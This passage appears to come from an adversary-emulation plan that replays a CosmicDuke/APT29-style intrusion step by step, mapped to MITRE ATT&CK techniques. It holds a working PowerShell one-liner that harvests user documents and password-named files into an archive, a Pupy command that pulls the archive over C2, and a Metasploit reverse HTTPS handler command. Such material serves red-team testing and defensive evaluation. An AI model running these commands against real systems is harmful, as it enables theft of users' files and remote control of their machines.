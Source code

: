 Paste the following PowerShell 1-liner into the Pupy terminal:

[pupy (PowerShell)] >

```powershell
$env:APPDATA;$files=ChildItem -Path $env:USERPROFILE\ -Include *.doc,*.xps,*.xls,*.ppt,*.pps,*.wps,*.wpd,*.ods,*.odt,*.lwp,*.jtd,*.pdf,*.zip,*.rar,*.docx,*.url,*.xlsx,*.pptx,*.ppsx,*.pst,*.ost,*psw*,*pass*,*login*,*admin*,*sifr*,*sifer*,*vpn,*.jpg,*.txt,*.lnk -Recurse -ErrorAction SilentlyContinue | Select -ExpandProperty FullName; Compress-Archive -LiteralPath $files -CompressionLevel Optimal -DestinationPath $env:APPDATA\Draft.Zip -Force
```

[pupy (PowerShell)] > `exit`

[pupy (CMD)] > `exit`

#### 2.B - Exfiltration Over C2 Channel ([T1041](https://attack.mitre.org/techniques/T1041/))

[pupy] > `download "C:\Users\<username>\AppData\Roaming\Draft.Zip" .`

### Cited Intelligence

* Open Invitation Contributor: Kaspersky
* CosmicDuke’s information stealing functionality included stealing user files with file extensions that match a predefined list. <sup> [1](https://www.f-secure.com/documents/996508/1030745/dukes_whitepaper.pdf), [2](https://blog-assets.f-secure.com/wp-content/uploads/2019/10/15163405/CosmicDuke.pdf) </sup>

---

## Step 3 - Deploy Stealth Toolkit

The attacker now uploads a new payload ([T1105](https://attack.mitre.org/techniques/T1105/)) to the victim. The payload is a legitimately formed image file with a concealed PowerShell script ([T1027](https://attack.mitre.org/versions/v6/techniques/T1027/) / [T1027.003](https://attack.mitre.org/techniques/T1027/003/)). The attacker then elevates privileges via a user account control (UAC) bypass ([T1122](https://attack.mitre.org/versions/v6/techniques/T1122/) / [T1546.015](https://attack.mitre.org/techniques/T1546/015/), [T1088](https://attack.mitre.org/versions/v6/techniques/T1088/) / [T1548.002](https://attack.mitre.org/techniques/T1548/002/)), which executes the newly added payload. A new C2 connection is established over port 443 ([T1043](https://attack.mitre.org/versions/v6/techniques/T1043/) using the HTTPS protocol ([T1071](https://attack.mitre.org/versions/v6/techniques/T1071/) / [T1071.001](https://attack.mitre.org/techniques/T1071/001/), [T1032](https://attack.mitre.org/versions/v6/techniques/T1032/) / [T1573](https://attack.mitre.org/techniques/T1573/)). Finally, the attacker removes artifacts of the privilege escalation from the Registry ([T1112](https://attack.mitre.org/techniques/T1112/)).

### Procedures

#### 3.A - Ingress Tool Transfer ([T1105](https://attack.mitre.org/techniques/T1105/))

Start Metasploit handler:

[msf] > `handler -H 0.0.0.0 -P 443 -p windows/x64/meterpreter/reverse_https`
